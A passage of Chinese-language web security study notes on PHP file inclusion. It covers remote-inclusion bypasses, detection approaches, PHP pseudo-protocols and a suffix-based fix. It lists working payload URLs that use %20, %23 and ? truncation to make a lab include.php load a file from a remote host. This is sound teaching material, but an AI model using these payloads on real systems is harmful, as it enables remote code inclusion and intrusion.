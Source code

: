 ##### 测试结果

可见由于拼接`.html`限制了包含文件的后缀，无法访问到远程地址中的`readme.txt.html`

![](https://img.yatjay.top/md/202203131618884.png)

##### 有限制远程包含绕过

```
%20截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt%20

%23截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt%23

?截断
http://127.0.0.1:8080/include.php?filename=http://192.168.137.128/readme.txt?
```

另外参考文件上传绕过所使用的的截断方式


## 文件包含漏洞检测

### 白盒

代码审计

### 黑盒

- 漏扫工具

- 公开漏洞

- 手工看参数值及功能点

## 文件包含结合PHP各种伪协议

**php伪协议参考文章：**https://www.cnblogs.com/endust/p/11804767.html

各类语言对伪协议的支持情况如下：

![](https://img.yatjay.top/md/202203131710639.png)

PHP伪协议：

![](https://img.yatjay.top/md/202203131707212.png)

## 文件包含漏洞修复

- 固定后缀：固定或限制被包含的文件类型，可以绕过

  ```php
  <?php
      $filename  = $_GET['filename'];
      include($filename.".html");//限制文件的后缀
  ?>
  ```
